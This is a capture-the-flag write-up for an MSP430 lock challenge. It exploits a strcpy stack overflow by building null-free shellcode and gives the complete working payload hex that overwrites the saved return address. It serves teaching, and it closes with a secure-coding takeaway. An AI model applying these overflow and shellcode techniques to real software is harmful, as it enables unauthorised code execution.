






# Montevideo

In this challenge, we continue building on the foundational skills introduced in `Whitehorse`. This time, however, we need to add another step. Identifying bad characters before constructing our shellcode. Depending on how our input is copied into memory, certain byte values may prevent the compete payload from reaching its destination. In this level, we explore this problem through the behavior of `strcpy`.

## Analyzing `main` & `login`

`main` takes us directly into `login`. When the call is made, the return address `0x443c` is pushed onto the stack at `0x43fe`.



The `login` function calls `getsn`, allowing up to 48 characters of password input to be written to `0x2400`.



Because this buffer is located away from the current stack frame, the initial input does not directly overwrite the saved return address. However, the following call to `strcpy` copies this password into a buffer located on the stack.

## strcpy

`strcpy` copies bytes from a source string to a destination buffer until it encounters a null terminator (`0x00`). The terminating null byte is then copied as well.

In this case, `strcpy` copies the password stored at `0x2400` into the buffer pointed to by the stack pointer. By setting a breakpoint on `0x4518`, immediately before the `sp` is moved into `r15`, we can inspect the state of the stack pointer before the call to `strcpy` and discover its value.



After debugging, we find that the destination buffer begins at `0x43ee`. The saved return address from the call to `login` is located at `0x43fe`, only 16 bytes later. This means sufficiently long input will overflow the local buffer and overwrite the saved return address.

We can therefore overwrite the return address with the address of our own instructions and redirect execution into the payload. Looking back at a previous room's payload, we prepare these instructions ...

```asm
push 0x007f
call <INT> #0x454c  -> `3012 7f00 b012 4c45` 

-> we would still need to add our return address and padding 
```

Because the program uses `strcpy`, any `0x00` byte within our input acts as a string terminator. If our shellcode contains a null byte, `strcpy` will stop copying at that point and the remainder of the payload will never reach the stack.

Our previous payload used:

```
push #0x007f
call #0x454c
```

which assembles to:

```
3012 7f00 b012 4c45
```

The `push #0x007f` instruction introduces a `0x00` byte, so we cannot include it directly in the string processed by `strcpy`. Instead, we need to construct `0x007f` at runtime using instructions whose encodings do not contain null bytes.

## Building a Byte Sanitized Payload

Instead of directly pushing the immediate value `0x007f`, to the stack to be used as an argument in the `INT` call, we can push a register which holds the value `0x007f`.

This avoids the `0x00` problem for the push.

```
0f12 push r15 
```

How do we move `0x7f` into the register?

We can combine some operations to "calculate" `0x7f` within the target register. Take a number a larger than `0x7f` like `0xff`, and subtract `0x80` from it. It works with any pair that results in `0x7f`.

We cannot simply use `#0xff` and `#0x80`, because MSP430 immediate operands are encoded as 16-bit values. In little-endian form, these values would introduce `0x00` bytes into our payload. Instead, we can add `0x0100` to both operands and calculate the same result:

`0x01ff - 0x0180 = 0x007f`

The encoded instructions now contain no null bytes, while the value produced in `r15` is still `0x007f`.

```
3f40 ff01       mov #0x01ff, r15
3f80 8001       sub #0x0180, r15  

will result in -> r15 = 0x007f
```

We can then add a `push` and a `call` to complete the instructions in our payload.

```
0f12            push r15
b012 4c45       call <INT> #0x454c
```

Next we need to add the `return address` and any necessary `padding` to align the values. Our input is copied to `0x43ee`, so if we place `0x43ee` at the correct offset within our payload to cause it to be written to `0x43fe`, it will be used as the return address from `login` and begin executing our payload.

First we need to assemble the bytes of the instructions so far.



Result: `3f40 ff01 3f80 8001 0f12 b012 4c45`

The instructions are 14 bytes long. Beginning at `0x43ee`, they occupy addresses `0x43ee` through `0x43fb`, making `0x43fc` the next available address.

```
	`0x43ee` + `e (14 decimal)` = `0x43fc` 
```

Because the saved return address begins at `0x43fe`, we need two bytes of padding at `0x43fc–0x43fd` before writing `0x43ee` over the saved return address.

```
return address and padding = 3f40 ff01 3f80 8001 0f12 b012 4c45 1111 ee43
```

Testing our payload...



The payload successfully unlocks the door.



## Security Takeaway

Functions such as `strcpy` are dangerous because they copy data without verifying that the destination buffer is large enough to hold it. In this challenge, an attacker-controlled string is first stored safely in one buffer but is later copied into a much smaller stack buffer, allowing the saved return address to be overwritten. The null-terminated nature of `strcpy` also demonstrates how input-processing behavior can constrain an exploit without actually preventing memory corruption.
